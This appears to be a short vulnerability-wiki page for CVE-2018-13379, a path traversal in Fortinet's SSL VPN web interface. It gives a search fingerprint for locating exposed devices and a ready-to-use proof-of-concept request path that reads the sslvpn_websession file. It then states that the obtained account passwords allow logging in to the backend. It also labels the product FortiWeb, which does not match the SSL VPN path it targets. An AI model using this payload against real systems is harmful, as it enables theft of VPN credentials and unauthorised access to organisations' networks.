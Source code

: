 # Fortinet FortiWeb sslvpn_websession path traversal vulnerability CVE-2018-13379

## Vulnerability Description

Fortinet FortiWeb path traversal vulnerability, attackers can obtain cache information through the vulnerability and log in to the server

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Fortinet FortiWeb </span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="FortiToken clock drift detected"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656249876571-67ffe16d-92fa-4e83-a87e-8ae42a65b069.png)

Verify POC

```php
/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656249978255-3ac076a5-e2c3-41dd-b2f9-527d4e7a3f68.png)

You can log in to the background by obtaining the account password